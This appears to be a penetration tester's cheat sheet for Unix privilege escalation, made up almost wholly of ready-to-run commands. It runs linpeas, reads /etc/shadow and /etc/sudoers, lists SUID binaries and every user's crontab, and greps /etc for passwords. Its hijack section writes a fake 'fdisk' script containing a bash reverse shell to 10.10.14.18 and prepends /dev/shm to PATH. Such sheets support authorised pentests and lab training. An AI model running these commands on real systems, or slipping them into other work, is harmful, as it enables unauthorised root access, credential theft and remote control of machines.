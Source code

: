 ## Unix:

	Scripts:  
	    ./linpeas.sh -w	(wget https://github.com/carlospolop/PEASS-ng/releases/download/20220901/linpeas.sh)
	    ./linenum.sh
	    Unix Privesc Check (http://pentestmonkey.net/tools/audit/unix-privesc-check):
		./unix-privesc-check standard or ./unix-privesc-check detailed
	General Enumeration:
	    hostname
	    ifconfig
	    netstat -rn
	    netstat -tanu; lsof -i -Pn
	    dpkg -l
	    cat /etc/fstab; mount; showmount -e; exportfs -v
	    cat /etc/hosts; getent hosts; cat /etc/resolv.conf; cat /etc/nsswitch.conf
	    iptables -nvL
	System/Kernel:
	    cat /etc/issue; cat /proc/version; uname -a
		DirtyCow affects all kernel version before 4.8.3****
	Users/Rights:
	    id
	    sudo -l
	    cat /etc/passwd; getent passwd; cat /etc/shadow; getent shadow; cat /etc/group; getent group; cat /etc/sudoers
	    find / -name .*history -exec ls -l {} \; -exec wc -l {} \; 2>/dev/null
	    **Find all SUID/SGID:  find / -perm /4000 -exec ls -trl {} \; 2>/dev/null    \\   find / -perm /2000 -exec ls -trl {} \; 2>/dev/null
	Scheduled Tasks:
		cat /etc/crontab; cat /etc/anacrontab; ls -tRal /etc/cron*; ls -latrR /var/spool
		for user in $(getent passwd | awk -F ':' '{print $1}' ); do echo $user; crontab -u $user -l  2>/dev/null; done
	Enumeration:
		ls -tRal /home
	        Find all hidden files:  find / -type f -name '.*'|grep -vE 'sys|src'|xargs ls -alt 2>/dev/null
		Find hidden directories:  find / -type d -name '.*'|grep -vE 'sys|src'|xargs ls -altF 2>/dev/null
		Bash scripts:  find / -iname *.sh 2>/dev/null|grep -vE 'share|src'
		User files that aren't world readable:  find / ! -type d ! -perm -o=r -user $(whoami) -exec ls -la {} \; 2>/dev/null | egrep -v " /proc|cgroup"
		Group files that aren't world readable: for group in $(groups); do echo ${group}; find / -group ${group} ! -type d ! -perm -o=r -exec ls -la {} \; 2>/dev/null | grep -vF " /proc" > ${group}; done
		Installed Packages:  cat /var/log/rpmpkgs; rpm -qa; apt-get list --installed; apt list --installed; dpkg-query -l; yum list installed
	Script/Process Modifications:
		*Look for things running as root that you can hijack
	    GTFOBins:  https://gtfobins.github.io/   
	    **Seeing if a script is run by another user: use https://github.com/DominicBreuker/pspy
	    ps -ef
		ps -f -U root
	    cat /etc/crontab; cat /etc/anacrontab; ls -tRal /etc/cron*
	    for user in $(getent passwd | awk -F ':' '{print $1}' ); do echo $user; crontab -u $user -l  2>/dev/null; done|more
	    Techniques:
		strings -> see what filenames/locations a binary uses
		modify script directly if permission
		hijack programs w/o absolute path
		check write access to same directory
		analyze program calls: ltrace sysinfo
		    find calls without path, then:  echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.18/4445 0>&1' > fdisk   and chmod +x
			add to path:  export PATH="/dev/shm:$PATH"   
	Interesting Files:
	    egrep -iR 'pass|secret' /etc/